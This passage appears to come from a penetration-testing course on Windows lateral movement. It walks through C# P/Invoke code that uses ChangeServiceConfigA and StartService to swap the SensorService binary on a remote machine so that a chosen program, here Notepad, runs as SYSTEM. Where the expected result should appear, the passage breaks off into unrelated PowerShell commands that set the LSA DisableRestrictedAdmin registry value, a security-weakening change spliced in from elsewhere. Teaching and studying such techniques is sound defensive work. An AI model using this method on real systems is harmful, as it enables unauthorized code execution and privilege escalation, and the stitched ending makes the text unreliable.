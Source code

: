 > Listing 35 - P/invoke for ChangeServiceConfig

At this point, we can update our code to invoke the call with the discussed arguments:

```
string payload = "notepad.exe";
bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);
```

> Listing 36 - Code to call ChangeServiceConfig

Once the proof of concept is compiled, we can execute it on the Windows 10 client in the context of the _dave_ user. This will change the service binary of SensorService to notepad.exe. We can log in to appsrv01 and verify this as shown in Figure 6 from the services manager.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/lm/b01ffa9e16e74c440a6a2ae87786e984-lm_fileimpl_notepadser.png" alt="Figure 6: SensorService service binary is changed to notepad"><figcaption><p>Figure 6: SensorService service binary is changed to notepad</p></figcaption></figure>

The final step is to start the service, which we can do through the _StartService_ API. The function prototype for this API is relatively simple as shown in Listing 37.

```
BOOL StartServiceA(
  SC_HANDLE hService,
  DWORD     dwNumServiceArgs,
  LPCSTR    *lpServiceArgVectors
);
```

> Listing 37 - Function prototype for StartService

The first argument (_hService_) is the service handle created by _OpenService_. The third argument (_\*lpServiceArgVectors_) is an array of strings that are passed as arguments to the service. We do not require any so we can set it to null and then set _dwNumServiceArgs_, which is the number of arguments, to 0 as well.

The P/invoke import for _StartService_[6](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_538-6) is shown in Listing 38.

```
[DllImport("advapi32", SetLastError=true)]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);
```

> Listing 38 - P/invoke for StartService

Finally, we'll add the code to invoke the API:

```
bResult = StartService(schService, 0, null);
```

> Listing 39 - Code to call StartService

Once this code has been added to the project, we can compile and execute it in the context of the _dave_ user. On appsrv01, we find the Notepad process running as SYSTEM:


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit